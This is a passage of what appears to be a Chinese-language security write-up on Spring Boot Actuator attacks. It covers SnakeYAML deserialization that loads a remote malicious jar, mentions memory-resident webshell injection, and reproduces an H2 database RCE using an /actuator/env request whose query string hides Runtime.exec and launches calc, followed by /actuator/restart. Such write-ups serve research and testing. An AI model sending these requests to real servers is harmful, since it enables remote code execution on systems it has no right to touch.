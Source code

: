 ![image-20230623220901991](../../../images/image-20230623220901991.png)

SnakeYAML 由于存在反序列化漏洞，所以解析恶意 yml 内容时会完成指定的动作,先是触发 java.net.URL 去拉取远程 HTTP 服务器上的恶意 jar 文件,然后是寻找 jar 文件中实现 javax.script.ScriptEngineFactory 接口的类并实例化,实例化类时执行恶意代码，造成 RCE 漏洞

![image-20230623220853189](../../../images/image-20230623220853189.png)



### 注入内存马

![image-20230623222557267](../../../images/image-20230623222557267.png)





## Spring restart h2 database query RCE

### 版本影响

存在 `com.h2database.h2` 依赖（版本要求暂未知）



### 复现

hackbar需要将原本的content-type删除，然后选择application/json才可以发送Content-Type: application/json的请求

```php
POST /actuator/env
Content-Type: application/json

{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('cmd','/c','calc');"}
```

![image-20230623233147055](../../../images/image-20230623233147055.png)

```php
POST /actuator/restart
Content-Type: application/json
```

![image-20230623233543854](../../../images/image-20230623233543854.png)



![image-20230623233529452](../../../images/image-20230623233529452.png)



需要注意的是payload 中的 'T5' 方法每一次执行命令后都需要更换名称 (如 T6) ，然后才能被重新创建使用，否则下次 restart 重启应用时漏洞不会被触发

![image-20230623233701077](../../../images/image-20230623233701077.png)

